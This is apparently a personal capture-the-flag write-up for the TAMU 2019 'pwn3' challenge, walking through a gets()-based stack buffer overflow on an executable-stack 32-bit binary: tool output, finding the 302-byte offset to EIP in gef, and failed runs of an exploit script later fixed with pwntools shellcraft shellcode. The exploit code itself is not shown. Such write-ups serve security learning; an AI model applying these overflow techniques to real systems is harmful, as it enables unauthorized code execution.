



# pwn3 tamu 2019

## Binary analysis

- Run the usual tools to get to know what you're dealing with:

```sh
noobuntu@noobuntu-VirtualBox:~/bof/shellcodin/challs/tamu2019$ file pwn3
pwn3: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=6ea573b4a0896b428db719747b139e6458d440a0, not stripped
noobuntu@noobuntu-VirtualBox:~/bof/shellcodin/challs/tamu2019$ checksec pwn3
[*] '/home/noobuntu/nightmare/bof/shellcodin/challs/tamu2019/pwn3'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      PIE enabled
    Stack:    Executable
    RWX:      Has RWX segments
```

- So it's 32 bit binary and full RELRO is enabled, which means overwriting GOT is impossible.
- Simply running the binary and it prints a string and waits for our input:

```sh
noobuntu@noobuntu-VirtualBox:~/bof/shellcodin/challs/tamu2019$ ./pwn3
Take this, you might need it on your journey 0xffcdb81e!
mmm kay
```

- It's also possible to crash the program by sending it something big enough:

```sh
noobuntu@noobuntu-VirtualBox:~/bof/shellcodin/challs/tamu2019$ ./pwn3
Take this, you might need it on your journey 0xffd7060e!
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
```

- And that's because this program uses `gets` function which is insecure:

```sh
noobuntu@noobuntu-VirtualBox:~/bof/shellcodin/challs/tamu2019$ ltrace ./pwn3
__libc_start_main(0x60ac75e3, 1, 0xff879374, 0x60ac7630 <unfinished ...>
setvbuf(0xea02ada0, 0x2, 0, 0)                                                                = 0
printf("Take this, you might need it on "..., 0xff87916eTake this, you might need it on your journey 0xff87916e!
)                                     = 57
gets(0xff87916e, 0xff87916e, 0xea1bc700, 0x60ac75acAAAAAAAAAAAAAAAAAAA
)                                          = 0xff87916e
+++ exited (status 0) +++
```

- So it appears I can change the RIP of this program:

```sh
read(0, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 1024) = 373
--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x41414141} ---
+++ killed by SIGSEGV (core dumped) +++
Segmentation fault (core dumped)
```

- Time for ghidra.
- So main is simple enough it just calls `echo` function:



- `echo` function declares a buffer which is 294 bytes long.
- As it turns out, the memory address we receive is actually the memory address of this buffer.




## Exploitation

- Have a look at the `strace` output, and you will see `IJKL` is what overwrites EIP.

```sh
read(0, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCDEFGHIJKLMNOP
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 1024) = 311
--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x4c4b4a49} ---
+++ killed by SIGSEGV (core dumped) +++
Segmentation fault (core dumped)
```

- So the offset is 302 bytes from the beginning of the buffer.
- You could've done similar thing and calculated the offset by yourself with:

```sh
gef➤  search-pattern 123456789
[+] Searching '123456789' in memory
[+] In '[heap]'(0x56558000-0x5657a000), permission=rw-
  0x565581a0 - 0x565581ab  →   "123456789\n" 
[+] In '/usr/lib/i386-linux-gnu/libc.so.6'(0xf7da2000-0xf7e27000), permission=r--
  0xf7db0e51 - 0xf7db0e88  →   "123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\]^_`ab[...]" 
  0xf7db1bbe - 0xf7db1bcd  →   "123456789:;<=>?" 
  0xf7dc0b23 - 0xf7dc0b5a  →   "123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmno[...]" 
  0xf7dc0b81 - 0xf7dc0ba4  →   "123456789abcdefghijklmnopqrstuvwxyz" 
  0xf7dc0bc1 - 0xf7dc0be4  →   "123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ" 
  0xf7dc0c35 - 0xf7dc0c3e  →   "123456789" 
  0xf7dc4991 - 0xf7dc49a0  →   "123456789abcdef" 
[+] In '/usr/lib/i386-linux-gnu/ld-linux.so.2'(0xf7fec000-0xf7ffb000), permission=r--
  0xf7ff18fd - 0xf7ff190c  →   "123456789abcdef" 
[+] In '[stack]'(0xfffdd000-0xffffe000), permission=rwx
  0xffffce2e - 0xffffce37  →   "123456789" 
gef➤  i f
Stack level 0, frame at 0xffffcf60:
 eip = 0x565555da in echo; saved eip = 0x5655561a
 called by frame at 0xffffcf80
 Arglist at 0xffffcf58, args: 
 Locals at 0xffffcf58, Previous frame's sp is 0xffffcf60
 Saved registers:
  ebx at 0xffffcf54, ebp at 0xffffcf58, eip at 0xffffcf5c
---
# 0xffffcf5c−0xffffce2e = 302
```

- I've wrote `exploit.py` to help me automate this process.
- But I've had no luck exploiting this program, it simply doesn't execute my shell.
- I've also looked at the official writeup, and my python script is very similar to that of the author's but still no luck.
- No matter what I do, all I get is a segmentation fault:

```sh
noobuntu@noobuntu-VirtualBox:~/bof/shellcodin/challs/tamu2019$ python3 exploit.py 
[+] Starting local process './pwn3': pid 3475
b'Take this, you might need it on your journey '
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$ id
[*] Process './pwn3' stopped with exit code -11 (SIGSEGV) (pid 3475)
[*] Got EOF while sending in interactive
noobuntu@noobuntu-VirtualBox:~/bof/shellcodin/challs/tamu2019$ python3 exploit.py 
[+] Starting local process './pwn3': pid 3481
b'Take this, you might need it on your journey '
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$ w
[*] Process './pwn3' stopped with exit code -11 (SIGSEGV) (pid 3481)
[*] Got EOF while sending in interactive
```

### Solution

- Solution came by using pwntool's shellcraft module.
- With it I've modified my `exploit.py` to include generated shell code from shellcraft.


